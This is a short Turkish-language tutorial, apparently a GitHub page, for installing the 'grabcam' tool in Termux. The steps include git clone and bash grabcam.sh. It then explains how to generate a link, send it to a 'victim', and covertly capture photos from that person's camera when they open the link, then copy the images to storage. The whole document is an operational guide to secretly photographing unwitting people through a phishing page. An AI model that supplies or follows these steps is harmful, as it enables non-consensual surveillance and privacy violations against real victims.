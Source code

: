 1) apt-get update -y
2) apt-get upgrade -y
3) pkg install python -y
4) pkg install python2 -y
5) pkg install git -y
6) pip install lolcat

-) pkg install wget
7) git clone https://github.com/noob-hackers/grabcam
ls
8) cd grabcam
ls
10) bash grabcam.sh
EVET KARŞIMIZA GRABCAM YAZILI EKRAN GELDİ
KOD SORUYOR VE BURAYA 02 YAZICAZ YAZMADAN ÖNCE MOBİL Veriyi ve HOTSPOT'U(internet paylaşımı) UNUTMAYINIZ
OLUŞTURDUKTAN SONRA İSE ŞU BÖLÜME SAYFAMIZ GELİYOR
VE KURBANIMIZA YOLLUYOR GİRDİGİ ZAMAN FOTOĞRAF ÇEKMEYE BAŞLIYOR. VE ŞU YAZI GELİYOR (Cam file received!)
ÇEKTİGİ FOTOLARI GÖRMEK İÇİN İSE
Ctrl+C YAPIP ÇIKIYORUZ
SONRA İSE ls KOMUTUNU YAZIYORUZ VE .png OLAN FOTOGRAFIN İSMİNİ KOPYALIYORUZ SONRA İSE ŞU KODU YAZIYORUZ
mv helloboys.png /sdcard
VE DOSYALARIMIZA GELİYOR

(Direct link:helloboys.io <-mesela )

LİNKİ OLUŞTURURKEN MOBİL VERİYİ VE HOTSPOT(paylaşım) AÇMANIZ LAZIM.
